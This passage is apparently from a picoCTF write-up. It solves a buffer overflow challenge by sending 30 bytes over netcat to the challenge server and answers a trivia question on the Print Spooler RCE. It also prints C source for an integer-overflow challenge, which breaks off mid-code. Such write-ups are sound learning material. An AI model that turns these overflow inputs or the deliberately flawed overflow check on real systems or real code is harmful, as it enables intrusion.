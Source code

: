 ### buffer overflow 0

Download the file and just fuzz it. I randomly inserted 30 bytes and got the flag.

```bash
➜  Binary-Exploitation git:(main) ✗ nc saturn.picoctf.net 61481
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{XXX}
```

### CVE-XXXX-XXXX

Just Google `first recorded remote code execution (RCE) vulnerability in 2021 in the Windows Print Spooler Service`.

![](../assets/cve-xxx-xxxxx.png)

### two-sum

Download the file and `cat` its content.

```c
#include <stdio.h>
#include <stdlib.h>

static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}

int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);
    
    if (scanf("%d", &num1) && scanf("%d", &num2)) {
        printf("You entered %d and %d\n", num1, num2);
        fflush(stdout);
        sum = num1 + num2;
        if (addIntOvf(sum, num1, num2) == 0) {
```